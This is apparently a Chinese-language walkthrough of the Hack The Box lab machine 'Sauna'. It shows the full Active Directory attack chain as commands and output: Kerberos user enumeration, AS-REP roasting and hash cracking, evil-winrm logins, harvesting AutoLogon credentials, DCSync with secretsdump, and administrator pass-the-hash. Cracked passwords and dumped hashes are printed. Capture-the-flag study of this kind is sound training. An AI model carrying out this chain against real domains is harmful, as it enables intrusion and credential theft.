

# README

这个靶机明确了信息收集的重要性。

## 信息收集

### nmap

```shell
sudo nmap -p- --min-rate 10000 10.10.10.175
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 13:38 CST
Nmap scan report for 10.10.10.175
Host is up (0.26s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49689/tcp open  unknown
49696/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.11 seconds

```

```shell
sudo nmap -p 53,80,88,135,139,389,445,464,593,636,5985,9389 -sC -sV  10.10.10.175
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 13:41 CST
Nmap scan report for 10.10.10.175
Host is up (0.27s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-14 12:42:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m00s
| smb2-time:
|   date: 2023-09-14T12:42:17
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.22 seconds

```


域名是EGOTISTICAL-BANK.LOCAL

```shell
53尝试DNS区域传输
80端口风险传输方式trace
88   kerber枚举
135  rpc的枚举
389  ldap枚举
```

### 53端口

```shell
dig axfr @10.10.10.175 sauna.htb
dig axfr @10.10.10.175 egotistical-bank.local
```

### 80端口

没有东西但是在about.html那里可以收集用户名：

```
cat fullnames.txt
Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb
```


### 88端口

```shell
./kerbrute_darwin_amd64 userenum --dc 10.10.10.175 /Users/feng/many-ctf/fuzzdb-master/wordlists-user-passwd/names/namelist.txt -d egotistical-bank.local

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/14/23 - Ronnie Flathers @ropnop

2023/09/14 11:56:55 >  Using KDC(s):
2023/09/14 11:56:55 >  	10.10.10.175:88

2023/09/14 11:56:56 >  [+] VALID USERNAME:	 administrator@egotistical-bank.local
2023/09/14 11:57:22 >  Done! Tested 1907 usernames (1 valid) in 26.536 seconds

```

似乎换个大字典可以跑出来很多用户名，但是太费时间了：

```shell
./kerbrute_darwin_amd64 userenum --dc 10.10.10.175 /Users/feng/many-ctf/SecLists/Usernames/xato-net-10-million-usernames.txt -d egotistical-bank.local
```


拿web收集到的用户名制作一个爆破字典，利用username-anarchy工具：

```shell
./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt

feng at fengs-MacBook-Pro.local in [~/ctftools/username-anarchy]  on git:master ✗  d5e653f "updated README"
12:10:39 › cat unames.txt
fergus
fergus.smith
ferguss
fsmith
shaun
shaun.coins
shaunc
scoins
hugo
hugo.bear
hugob
hbear
bowie
bowie.taylor
bowiet
btaylor
sophie
sophie.driver
sophied
sdriver
steven
steven.kerb
stevenk
skerb
```


```shell
./kerbrute_darwin_amd64 userenum --dc 10.10.10.175 ~/ctftools/username-anarchy/unames.txt -d egotistical-bank.local

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/14/23 - Ronnie Flathers @ropnop

2023/09/14 13:25:38 >  Using KDC(s):
2023/09/14 13:25:38 >  	10.10.10.175:88

2023/09/14 13:25:38 >  [+] VALID USERNAME:	 fsmith@egotistical-bank.local
2023/09/14 13:25:39 >  Done! Tested 24 usernames (1 valid) in 0.808 seconds
```


### 135端口

```shell
rpcclient -U "" -N 10.10.10.175
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
```

### 389端口

```shell
ldapsearch -x -b "DC=egotistical-bank,DC=local"  -s base -h 10.10.10.175
```

也没有找到。


## AS-REP Roasting

```shell
python3.10 GetNPUsers.py -dc-ip 10.10.10.175 egotistical-bank.local/ -usersfile ~/ctftools/username-anarchy/unames.txt
Impacket v0.11.0 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b2fc32534fe874767ca5d4063533912f$8a57f5d56fd244a5372718ea444d18a108e55a554037663ecd8d052708796f67ff3c07bbbb755cdc567b10b2954bc64a7b60ad49283dfab0482684b8091036ec187904bb064c56cb4455b178d1818f0f71c1c7b08c2074ee7933fc95b044a423a3c78e394552107b7c6974cfad419a5574d824bfff4dbcc3b57197c21a5245d307be197298a43ebdfd3730dd53958f3040bd7c095f9cef59b5a3df26c8ad8684b298dd609fb29e0faabcbb644b889aef9e4494ecccddc310f49ce70616fb1f68540641d5ff0eb3a186aabd0502cb3ff25094327494d3b27899f51b520c0e33b237f6aaad18e66236197ebc4bff4d48f01da88bb807896793d8e8d31876f4cbe8
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

```

```shell
hashcat -m 18200 hash.txt /Users/feng/many-ctf/rockyou.txt --force
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

* Device #2: Apple's OpenCL drivers (GPU) are known to be unreliable.
             You have been warned.

METAL API (Metal 263.8)
=======================
* Device #1: Apple M1 Pro, 10880/21845 MB, 14MCU

OpenCL API (OpenCL 1.2 (Apr 19 2022 18:44:44)) - Platform #1 [Apple]
====================================================================
* Device #2: Apple M1 Pro, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 100c

Host memory required for this attack: 122 MB

Dictionary cache hit:
* Filename..: /Users/feng/many-ctf/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b2fc32534fe874767ca5d4063533912f$8a57f5d56fd244a5372718ea444d18a108e55a554037663ecd8d052708796f67ff3c07bbbb755cdc567b10b2954bc64a7b60ad49283dfab0482684b8091036ec187904bb064c56cb4455b178d1818f0f71c1c7b08c2074ee7933fc95b044a423a3c78e394552107b7c6974cfad419a5574d824bfff4dbcc3b57197c21a5245d307be197298a43ebdfd3730dd53958f3040bd7c095f9cef59b5a3df26c8ad8684b298dd609fb29e0faabcbb644b889aef9e4494ecccddc310f49ce70616fb1f68540641d5ff0eb3a186aabd0502cb3ff25094327494d3b27899f51b520c0e33b237f6aaad18e66236197ebc4bff4d48f01da88bb807896793d8e8d31876f4cbe8:Thestrokes23

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b2fc325...f4cbe8
Time.Started.....: Thu Sep 14 13:31:22 2023, (1 sec)
Time.Estimated...: Thu Sep 14 13:31:23 2023, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/Users/feng/many-ctf/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 16836.4 kH/s (11.67ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10551296/14344384 (73.56%)
Rejected.........: 0/10551296 (0.00%)
Restore.Point....: 10092544/14344384 (70.36%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: angella14 -> TUGGAB8
Hardware.Mon.SMC.: Fan0: 0%, Fan1: 0%
Hardware.Mon.#1..: Util: 73%

Started: Thu Sep 14 13:31:22 2023
Stopped: Thu Sep 14 13:31:23 2023

```

得到用户名fsmith，密码Thestrokes23。

## evil-winrm登陆

然后利用evil-winrm登陆：

```shell
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

拿下第一个flag：

```shell
*Evil-WinRM* PS C:\Users\FSmith\Documents> cd ../
*Evil-WinRM* PS C:\Users\FSmith> cd Desktop
*Evil-WinRM* PS C:\Users\FSmith\Desktop> dir


    Directory: C:\Users\FSmith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/14/2023   3:11 AM             34 user.txt


*Evil-WinRM* PS C:\Users\FSmith\Desktop> type user.txt
d0bc356a7ed1f5d42ab8608588d61a57
*Evil-WinRM* PS C:\Users\FSmith\Desktop>
```


## winPEAS

上传winPEAS提权辅助脚本并执行：

```shell
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\winPEASx64.exe log=result.txt
"log" argument present, redirecting output to file "result.txt"
*Evil-WinRM* PS C:\Users\FSmith\Documents> download result.txt

Info: Downloading C:\Users\FSmith\Documents\result.txt to result.txt

Info: Download successful!
*Evil-WinRM* PS C:\Users\FSmith\Documents>
```


发现结果中还有着这么一个用户：

```shell

   Computer Name           :   SAUNA
   User Name               :   svc_loanmgr
   User Id                 :   1108
   Is Enabled              :   True
   User Type               :   User
   Comment                 :   
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   1/24/2020 4:48:31 PM
```

并且这个用户也在`Users`下面。

而且找到了这个东西：

```shell
╔══════════╣ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
```

配置了这么个用户自动登录，得到了svc_loanmgr用户的密码Moneymakestheworldgoround!。

```shell
15:55:46 › evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> whoami
egotisticalbank\svc_loanmgr
```


## BloodHound

上传SharpHound.exe使用BloodHound收集信息：

```shell
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload SharpHound.exe

Info: Uploading /Users/feng/ctftools/Bloodhound/BloodHound-darwin-arm64/BloodHound/Collectors/SharpHound.exe to C:\Users\FSmith\Documents\SharpHound.exe

Data: 1395368 bytes of 1395368 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\SharpHound.exe
2023-09-14T06:39:29.5448032-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2023-09-14T06:39:29.7010675-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-09-14T06:39:29.7322915-07:00|INFORMATION|Initializing SharpHound at 6:39 AM on 9/14/2023
2023-09-14T06:39:29.8885698-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for EGOTISTICAL-BANK.LOCAL : SAUNA.EGOTISTICAL-BANK.LOCAL
2023-09-14T06:39:41.9354187-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-09-14T06:39:42.1385528-07:00|INFORMATION|Beginning LDAP search for EGOTISTICAL-BANK.LOCAL
2023-09-14T06:39:42.1854195-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-09-14T06:39:42.1854195-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-09-14T06:40:12.5303461-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2023-09-14T06:40:37.9197919-07:00|INFORMATION|Consumers finished, closing output channel
2023-09-14T06:40:37.9666683-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-09-14T06:40:38.2166622-07:00|INFORMATION|Status: 94 objects finished (+94 1.678571)/s -- Using 42 MB RAM
2023-09-14T06:40:38.2166622-07:00|INFORMATION|Enumeration finished in 00:00:56.0889323
2023-09-14T06:40:38.3260426-07:00|INFORMATION|Saving cache with stats: 53 ID to type mappings.
 53 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-09-14T06:40:38.3416663-07:00|INFORMATION|SharpHound Enumeration Completed at 6:40 AM on 9/14/2023! Happy Graphing!
*Evil-WinRM* PS C:\Users\FSmith\Documents> dir


    Directory: C:\Users\FSmith\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2023   6:40 AM          11554 20230914064037_BloodHound.zip
-a----        9/14/2023   6:39 AM        1046528 SharpHound.exe
-a----        9/14/2023   6:40 AM           8601 ZDFkMDEyYjYtMmE1ZS00YmY3LTk0OWItYTM2OWVmMjc5NDVk.bin


down*Evil-WinRM* PS C:\Users\FSmith\Documents> download 20230914064037_BloodHound.zip

Info: Downloading C:\Users\FSmith\Documents\20230914064037_BloodHound.zip to 20230914064037_BloodHound.zip

Info: Download successful!
```



发现SVC_LOANMGR用户可以DCSync 目标域，打即可：

```shell
python3.10 secretsdump.py  'egotistical-bank/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175' -just-dc
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:506420a072d65d611e871932789c8cfe:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:4aa8a19de26f1306760b14de0e28886b92f86fde58dbe6f281f38b3c56e41380
SAUNA$:aes128-cts-hmac-sha1-96:5aa96df5b046b46eae14567f868687b0
SAUNA$:des-cbc-md5:f71aa28a5e89da13
[*] Cleaning up...

```


```shell
python3.10 smbexec.py egotistical.local/Administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

over，感觉前期的信息收集学到了很多东西。